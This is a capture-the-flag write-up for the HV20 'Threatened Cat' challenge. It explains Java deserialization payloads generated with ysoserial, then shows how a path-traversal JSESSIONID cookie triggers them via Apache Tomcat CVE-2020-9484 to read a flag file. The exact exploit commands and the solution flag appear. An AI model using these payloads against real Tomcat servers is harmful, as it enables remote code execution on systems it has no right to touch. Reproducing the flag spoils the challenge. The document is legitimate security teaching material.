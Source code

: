 # Day 21 / HV20.21 Threatened Cat



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tag:    #web-security #exploitation
* Level:  hard

You can feed this cat with many different things, but only a certain kind of
file can endanger the cat.

Do you find that kind of files? And if yes, can you use it to disclose the flag?
Ahhh, by the way: The cat likes to hide its stash in `/usr/bin/catnip.txt`.

Note: The cat is currently in hibernation and will take a few seconds to wake
up.


### Resources

An instance of the web app _Threatened Cat_ could be started from within the
the challenge description.



## Solution

The webapp was a nice ASCII kitty waiting for a file upload. (On the left)

If you uploaded a file, the cat would print out what kind of file it is and
whether it feels threatened about it. For example if a JPG image was uploaded
the result would be: (On the right)

![](threatcat_webapp.png){width=45%} ![](threatcat_jpg.png){width=45%}

The file information the cat printed seemed to come from the canonical 
[file(1)] command. The only way that some unusual reaction could be provoked
was if a rather big file was uploaded. This would lead to an error message
indicating the server runtime:

[file(1)]: https://en.wikipedia.org/wiki/File_(command)

`[E]: An error occured: Maximum upload size exceeded; nested exception is 
java.lang.IllegalStateException: 
org.apache.tomcat.util.http.fileupload.impl.SizeLimitExceededException: 
the request was rejected because its size (98566380) exceeds the configured 
maximum (131072)`

Server runtime: Java/Tomcat (which is fitting the overall cat theming)


### Why so serial ?

While searching the web for exploits against Java/Tomcat, sooner or later the
topic _object serialization_ came up. Since serialization attacks are quite
intricate to build yourself, it's probably best to look for a software package
that generates such attack payloads. \*_[ysoserial project] entering the
stage_\*

[ysoserial project]: https://github.com/frohoff/ysoserial

Since experience with serializaton attacks was lacking the preferred approach
was to simply try every payload type the tool has to offer while keeping the 
injected command simple.

With the first choice named `CommonsCollections1`, the cat felt already
threatened. With the choice `CommonsCollections2` it said that it felt _really_
threatened.

```sh
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections1 'sleep 5' > attack1
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'sleep 5' > attack2
```

![](threatcat_threatened.png){width=45%} ![](threatcat_really_threatened.png){width=45%}

So far so good. But what ever command was included into the payload, it didn't
seem to get triggered.


### "Got my finger on the trigger... I'm gonna pull it."

Turns out that there is a [vulnerability in Apache Tomcat (CVE-2020-9484)] that
allows to trigger a deserialization attack by sending the server a modified
JSESSION cookie. The server basically tries to find a session stored as a file
where the attacker can provide the path to the cookie file. If the server finds
a file that ends in `.session` in the given path, it will run the 
deserialization inside it.

[vulnerability in Apache Tomcat (CVE-2020-9484)]: https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

In the end the whole attack went like this:

1. _ysoserial_ was used to craft a special deserialization payload, whose sole
   purpose is to copy the flag `/usr/bin/catnip.txt` to a path that is readable
   from the web facing side – i.e. `/usr/local/uploads/catnip.txt` readable at
   `cat/files/catnip.txt from the web.

   ```sh
   $ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'cp /usr/bin/catnip.txt /usr/local/uploads/catnip.txt' > cattack.session
   ```

2. Upload the payload to the server via its cat web app.

3. Triggering the payload via the session cookie vulnerability.

   ```sh
   $ curl 'https://eca4b853-2bb9-4a16-a11d-e532a29541a4.idockerand/cat/' -H 'Cookie: JSESSIONID=../../../../../usr/local/uploads/cattack'
   <!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title>
   [ LOTS OF JAVA ERROR MESSAGES ]
   ```

4. Casually download the [catnip.txt](catnip.txt) from the web page.


<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
--------------------------------------------------------------------------------

Flag: `HV20{!D3s3ri4liz4t10n_rulz!}`

